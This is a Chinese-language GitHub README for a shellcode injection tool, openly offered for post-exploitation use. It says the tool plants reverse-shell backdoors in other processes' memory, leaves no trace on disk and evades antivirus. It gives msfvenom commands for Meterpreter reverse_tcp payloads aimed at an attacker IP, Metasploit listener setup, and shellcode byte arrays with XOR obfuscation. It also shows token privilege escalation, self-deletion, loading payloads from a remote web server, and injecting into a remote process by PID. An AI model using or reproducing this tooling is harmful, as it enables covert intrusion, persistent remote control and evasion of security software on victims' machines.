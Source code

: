 # 应用层恶意代码注入器

<br>

<div align=center>

![image](https://user-images.githubusercontent.com/52789403/224480378-709a99e3-60e5-405f-9ae3-b64261c43423.png)

</div>

<br>

<div align=center>

[![Build status](https://cdn.lyshark.com/archive/LyScript/build.svg)](https://github.com/lyshark/LyMemory) [![Crowdin](https://cdn.lyshark.com/archive/LyScript/email.svg)](mailto:me@lyshark.com)  [![OSCS Status](https://cdn.lyshark.com/archive/LyScript/OSCS.svg)](https://www.oscs1024.com/project/lyshark/LyMemory?ref=badge_small)

</div>

<br>

一款功能强大的应用层恶意代码注入器，该工具可用于向第三方进程内强制插入`DLL`模块，也可用于插入一段`ShellCode`反弹后门，或实现汇编级`Call调用`功能，

工具主要用于在后渗透阶段使用，可将后门直接注入到特定进程内存中而不会在磁盘中留下任何痕迹，注入成功后`Metasploit`即可获取控制权，只要对端不关机则权限会一直维持，由于内存注入无对应磁盘文件，所以也不会触发杀软报毒。






首先需要通过`Metasploit`工具生成一个有效载荷，如下是32位与64位载荷生成命令。
```BASH
32位载荷生成
[root@lyshark ~]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c

64位载荷生成
[root@lyshark ~]# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c
```
后台侦听器的配置也分为`32`位与`6`4位，使用工具时需要与载荷的位数相对应。
```BASH
32位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit

64位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit
```

<br>

 - 工具参数列表预览
```C
Shell> InjectShellCode32.exe
  ____  _          _ _   ___        _           _
/ ___|| |__   ___| | | |_ _|_ __  (_) ___  ___| |_
\___ \| '_ \ / _ \ | |  | || '_ \ | |/ _ \/ __| __|
 ___) | | | |  __/ | |  | || | | || |  __/ (__| |_
|____/|_| |_|\___|_|_| |___|_| |_|/ |\___|\___|\__|
                                |__/

Usage: ShellCode 远程线程注入器
E-mail: me@lyshark.com

Options:
         --show              显示当前所有可注入进程
         --promote           尝试提升自身进程权限
         --delself           从系统中删除自身痕迹

 Format:
         --Format            将字节数组格式化为一行并打印
         --FormatFile        将字节数组格式化并写出到文件
         --Xor               将文本中压缩后的字节数组进行异或并输出
         --Xchg              将压缩后的字符串转为字节数组格式
         --XorArray          将字节数组加密/解密为字节数组格式

 Inject:
         --InjectSelfShell   注入字符串到自身进程并运行
         --InjectArrayByte   注入字节数组到自身进程并运行
         --FileInjectShell   从文件中读入字符串并注入运行
         --InjectProcShell   注入字符串到远程进程并运行
         --InjectWebShell    从远程加载字符串并注入自身进程

 Encode:
         --EncodeInFile      从文件读入加密字符串并执行反弹
         --EncodePidInFile   注入加密后的字符串到远程进程中
```

<br>

 - 列举出目前系统中支持注入的进程
```C
InjectShellCode32.exe --show

[*] x32 进程PID =>      4        进程名 => System
[*] x32 进程PID =>    124        进程名 => Registry
[*] x32 进程PID =>    588        进程名 => smss.exe
[*] x32 进程PID =>    836        进程名 => csrss.exe
[*] x32 进程PID =>    940        进程名 => wininit.exe
[*] x32 进程PID =>    948        进程名 => csrss.exe
[*] x32 进程PID =>   1012        进程名 => services.exe
```

 - 尝试使用令牌提权
```C
InjectShellCode32.exe --promote

[+] 获取自身Token
[+] 查询进程特权
[*] 已提升为管理员
```

 - 删除自身程序
```C
InjectShellCode32.exe --delself

[*] 自身已清除
```

 - 将攻击载荷格式化为一行纯字符串
```C
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

InjectShellCode32.exe Format --path d://shellcode.txt

fce88f0000006031d289e5648b52308b520c8b52140fb74a268b722831ff31c0ac3c617c022c20c1cf0d01...
```

 - 将攻击载荷格式化为一行并写出到文本
```C
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

InjectShellCode32.exe FormatFile --path d://shellcode.txt --output d://output_shellcode.txt
[+] 已储存 => d://output_shellcode.txt
```

 - 将一行攻击载荷进行异或处理
```C
InjectShellCode32.exe Xor --path d://output_shellcode.txt --passwd lyshark

% &{{%ssssssuspr'q{z&vuw{!vqps{!vqs {!vqrws%!tw"qu{!tqq{pr%%pr s" p urtwst{%s!v"qvuu"ssvp%%'v
```

 - 将一段压缩载荷转换成字节数组
```C
InjectShellCode32.exe Xchg --input d://output_shellcode.txt --output d://array.txt
[+] 字节已转为双字节
[*] 已写出ShellCode列表 => d://array.txt

"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
```

 - 对字节数组进行异或处理
```C
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

InjectShellCode32.exe XorArray --path d://array.txt --passwd lyshark

"\xbf\xab\xcc\x43\x43\x43\x23\x72\x91\xca\xa6\x27\xc8\x11\x73\xc8"
"\x11\x4f\xc8\x11\x57\x4c\xf4\x9\x65\xc8\x31\x6b\x72\xbc\x72"
"\x83\xef\x7f\x22\x3f\x41\x6f\x63\x82\x8c\x4e\x42\x84\xa\x36"
"\xac\x11\x14\xc8\x11\x53\xc8\x1\x7f\x42\x93\xc8\x3\x3b\xb3"
"\xf6\xe1\x15\x29\x43\x10\xbc\x96";
```

 - 将攻击载荷注入到自身进程内
```C
InjectShellCode32.exe InjectSelfShell --shellcode fce88f00002c201...
[+] 解码地址: 19db64
```

 - 将字节数组注入到自身进程内
```C
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

InjectShellCode32.exe InjectArrayByte --path d://shellcode.txt
[+] 解码地址: 19df20
```

 - 将一行字符串注入到自身进程内
```C
fce88f0000006031d289e5648b52308b520c8b52140fb74a268b722831ff31c0ac3c617c022c20c1cf0d01...

InjectShellCode32.exe FileInjectShell --path d://output_shellcode.txt
[+] 解码地址: 19df20
```

 - 从远程Web服务器加载字符串并注入到自身进程内
```C
192.168.1.100:80/shellcode.raw
fce88f0000006031d289e5648b52308b520c8b52140fb74a268b722831ff31c0ac3c617c022c20c1cf0d01...

InjectWebShell --address 192.168.1.100 --payload shellcode.raw
```

 - 直接注入加密后的攻击载荷到自身进程内
```C
InjectShellCode32.exe Xor --path d://output_shellcode.txt --passwd lyshark
% &{{%ssssssuspr'quw{!vqps{z&v{!vqs {!vqrw{!tqq{pr%%s%!tw"qupr s" p urt sqq qs r %s'sr 

InjectShellCode32.exe EncodeInFile --path d://xor_shellcode.txt --passwd lyshark
[+] 解码ShellCode字节 => 708 bytes
[+] 格式化ShellCode字节地址 => 19df00
[*] 激活当前反弹线程 => 2a60000
```

 - 注入攻击载荷到远程进程
```C
InjectShellCode32.exe InjectProcShell --pid 13372 --shellcode fce88f0000006031d2648b523089e...
[*] 开始注入进程PID => 13372
[+] 打开进程: 360
[+] 已设置权限: 3866624
[*] 创建线程ID => 352
```

 - 注入加密后的攻击载荷
```C
% &{{%ssssssuspr'quw{!vqps{z&v{!vqs {!vqrw{!tqq{pr%%s%!tw"qupr s" p urt sqq qs r %s'sr 

InjectShellCode32.exe EncodePidInFile --pid 8384 --path d://xor_shellcode.txt --passwd lyshark
[+] 解码ShellCode字节 => 708 bytes
[+] 读入ShellCode长度 => 1687292
[*] 开始注入进程PID => 8384 长度 => 354
[+] 打开进程: 340
[+] 已设置权限: 12451840
[*] 创建线程ID => 356
```

GitHUB地址：https://github.com/lyshark/ShellCodeInject
